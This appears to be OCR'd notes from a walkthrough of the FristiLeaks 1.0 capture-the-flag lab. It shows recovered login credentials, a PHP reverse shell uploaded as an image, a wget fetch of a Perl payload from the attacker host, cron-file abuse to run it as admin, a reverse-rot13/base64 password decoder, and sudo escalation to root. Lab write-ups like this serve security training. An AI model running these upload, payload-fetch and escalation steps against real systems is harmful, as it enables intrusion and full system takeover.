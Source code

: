 By dirb and decode:   
eezeepz   
keKkeKKeKKeKkEkkEk   
then upload:   
http://192.168.139.145/fristi/uploads/revshell.php.jpg  			

```shell
bash-4.1$ cd /home/eezeepz
bash-4.1$ ls -aul
bash-4.1$ cat notes.txt
bash-4.1$ wget 192.168.139.129/perl.pl
Get admin ID:
bash-4.1$ echo "/usr/bin/perl /tmp/perl.pl" > /tmp/runthis
[admin@localhost /]$ whoami
whoami
admin
```shell
Find out the txt:
=RFn0AKnlMHMPIzpyuTI0ITG
Need make a script:
decrypt.py
----------------------------------------------------
import base64, codecs,sys
def decodeString(str):
	rot13crypt=codecs.decode(str[::-1], 'rot13')
	return base64.b64decode(rot13crypt)
print decodeString(sys.argv[1])
----------------------------------------------------

Optional:
```shell
bash-4.1$ echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis
bash-4.1$ cd /tmp
cd /tmp
bash-4.1$ ls
ls
cronresult  runthis
bash-4.1$ cat cronresult
bash-4.1$ cd /home/admin
```
Decrypt password:

LetThereBeFristi!

```shell
sudo -u fristi ./doCom chmod -R 777 /root
```
or
```shell
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
```
```
Final:
bash-4.1# cat fristileaks_secrets.txt
cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]
I wonder if you beat it in the maximum 4 hours it's supposed to take!
Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)

Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```
